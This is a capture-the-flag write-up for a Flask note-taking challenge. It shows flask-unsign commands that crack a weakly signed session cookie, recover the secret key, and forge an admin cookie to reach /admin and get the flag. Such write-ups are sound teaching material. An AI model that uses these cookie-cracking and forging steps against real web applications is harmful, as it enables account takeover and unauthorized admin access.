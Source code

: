 # Introduction
This is a challange that uses flask and creates a session cookie that is not signed with strong key

## Challange Discription

I have created this notes taking app so that I don't forget what I've studied

Author: @5h1kh4r
Web Instance: http://34.16.207.52:8965 

## Step1

When we open the website we are face with **login/register** page. after we sign up and login we are given a session cookie that seems to be *JWT* but it is not:

![](../assets/Action_Noted_1.png)

As we can see the server is using python so maybe it is using flask coockie that can be cracked using **flask-unsign**

```bash
flask-unsign  --unsign --cookie "eyJ1c2VybmFtZSI6IlNhbGFyNDAzMCJ9.Zpefgg.QH8tMHnV-i7ANwJ-rsFPWROI7sc"
```

![](../assets/Action_Noted_2.png)

Then we use the extracted key to create a new session token for admin and login with that

```bash
flask-unsign  --sign --cookie "{'username': 'admin'}" --secret 'supersecretkey'
```

Noow we go to **/admin** path with new token to get the flag:

![](../assets/Action_Noted_3.png)

